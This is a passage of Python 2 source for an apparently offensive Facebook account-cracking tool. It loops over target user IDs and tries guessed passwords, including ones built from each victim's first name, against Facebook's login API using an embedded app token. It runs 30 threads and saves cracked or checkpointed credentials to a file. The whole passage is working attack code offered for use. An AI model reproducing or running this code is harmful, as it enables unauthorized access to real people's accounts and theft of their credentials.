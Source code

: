 											else:
												if 'www.facebook.com' in q["error_msg"]:
													cek = open("out/super_cp.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													#Pass6
													pass6 = "oiboy123"
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass6+" =>"+z['name'])
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															cek = open("out/super_cp.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															#Pass7
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name']+'doraemon321'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print("\033[1;93m[ \033[1;93mOK✓\033[1;93m ] "+user+" 😁 " +pass7+" =>"+z['name'])
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	cek = open("out/super_cp.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal OK/CP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;91m[+] \033[1;92mCP File saved \033[1;91m: \033[1;97mout/super_cp.txt")
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	super()
######################################################
